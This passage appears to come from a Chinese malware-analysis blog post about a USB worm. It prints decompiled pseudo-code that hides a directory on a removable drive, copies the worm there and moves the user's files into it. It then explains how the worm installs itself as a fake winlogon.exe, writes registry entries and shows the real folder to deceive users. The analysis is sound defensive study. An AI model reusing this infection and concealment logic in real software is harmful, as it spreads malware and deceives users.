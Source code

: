   {
    wsprintfA(&NewFileName, aSMydocument_ex, &v6);
    CreateDirectoryA(&PathName, 0); // create MyDocuments directory in h
    SetFileAttributesA(&PathName, 6u); // set MyDocuments attribute: hide | system file
    v3 = &NewFileName; // v3 = h:\\MyDocument.exe
  }
  else // exist
  {
    SetFileAttributesA(&PathName, 6u);
    wsprintfA(&NewFileName, aSMydocument_ex, &v6);
    v3 = &NewFileName;
  }
  CopyFileA(::NewFileName, v3, 1);
  wsprintfA(&FileName, aS_, &v6); // filename = h:\\*.*
  result = FindFirstFileA(&FileName, &FindFileData);
  v2 = result;
  if ( result != (HANDLE)-1 ) // find successfully
  {
    do
    {
      if ( FindFileData.cFileName[0] != '.' && (FindFileData.cFileName[1] != 'y' || FindFileData.cFileName[9] != 't') )
      {
        wsprintfA(&ExistingFileName, aSS, &v6, FindFileData.cFileName);
        wsprintfA(&v10, aSS, &PathName, FindFileData.cFileName);
        MoveFileExA(&ExistingFileName, &v10, 1u);
      }
    }
    while ( FindNextFileA(v2, &FindFileData) );
    result = (HANDLE)FindClose(v2);
  }
  return result;
}
{% endhighlight %}

②如果病毒当前处于可移动磁盘：

先执行`sub_4012C0`判断`C:\Program Files\Internet Explorer\WINLOGON.exe`是否存在：

如果不存在则调用`sub_4012A0`创建`C:\Program Files\system.caca`，再调用`sub_4011E0`向注册表中写入三个项，接着把它自己（准确地说，是可移动磁盘下的MyDocument.exe文件）复制到`C:\Program Files\Internet Explorer`下并改名为`winlogon.exe`。

接着，调用`ShellExecute`执行展示（`explore`）当前可移动磁盘下`MyDocument`目录的命令（迷惑用户以为自己正常打开了文件夹，其实系统已经被感染）。

然后同上面一样，调用`sub_401580`，进入死循环，持续监视可移动磁盘，一旦发现就感染该磁盘。由于这个函数有一些问题（前面分析过，每次只能感染同一个可移动磁盘），所以当前可移动磁盘拔掉之前有可能无法感染其他可移动磁盘了（除非那个磁盘的盘符字母序在当前这个的前面）。

注意，刚刚判断`C:\Program Files\Internet Explorer\WINLOGON.exe`是否存在时如果不存在最后是直接进入监控死循环的；如果存在，则跳过上面那些，它又调用`sub_4012C0`来判断`C:\Program Files\Internet Explorer\WINLOGON.exe`是否存在，这次如果存在，则说明当前系统已被感染（至少病毒这么想），它仅仅打开`MyDocument`目录，把正常文件展示给用户；如果这次不存在，则什么也不做，退出程序（这里重复判断体现了病毒的狡猾：如果因为某种原因，上次判断之后C盘下的病毒复制品被删除了，病毒将不给用户展示正常文件夹，用户以为出错，一般来说会再次双击运行这个病毒，于是又会走一次流程......）。

### 思路归纳

